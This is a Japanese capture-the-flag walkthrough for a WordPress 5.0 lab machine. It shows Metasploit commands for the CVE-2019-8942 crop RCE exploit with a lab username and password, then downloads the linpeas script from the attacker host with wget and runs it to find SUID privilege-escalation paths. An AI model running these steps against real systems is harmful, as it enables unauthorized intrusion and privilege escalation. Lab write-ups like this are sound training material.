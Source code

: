 WordPress 5.0 の脆弱性を利用して攻撃を仕掛け、管理者権限を取得した。

```bash
$ msfconsole
msf6 > search CVE-2019-8942
msf6 > use 0
msf6 exploit(multi/http/wp_crop_rce) > set password cutiepie1
msf6 exploit(multi/http/wp_crop_rce) > set rhosts blog.thm
msf6 exploit(multi/http/wp_crop_rce) > set username kwheel
msf6 exploit(multi/http/wp_crop_rce) > set lhost 10.17.15.81
msf6 exploit(multi/http/wp_crop_rce) > exploit
```

次に、Linpeas を使ってシステムの脆弱性をチェックを行う。linpeas.sh をターゲットマシンに送り込むために、手元のマシンでサーバーを立ち上げる。

```bash
$ sudo apt-get update
$ sudo apt install peass
$ cp /usr/share/peass/linpeas/linpeas.sh .
$ python3 -m http.server 12345
```

これをターゲットマシンから取得する。何度か、`Exception occurred during processing of request from ...` というエラーが吐かれたがトライして成功した。

```bash
$ wget 10.17.15.81:12345/linpeas.sh
```

ダウンロード後、スクリプトに実行権限を付与し、実行した結果、脆弱なバイナリファイルが発見できる。

```bash
$ chmod +x linpeas.sh
$ ./linpeas.sh | tee linpeas_output.txt
```

SUID 権限が設定されたファイルを利用して、権限昇格を成功させた。
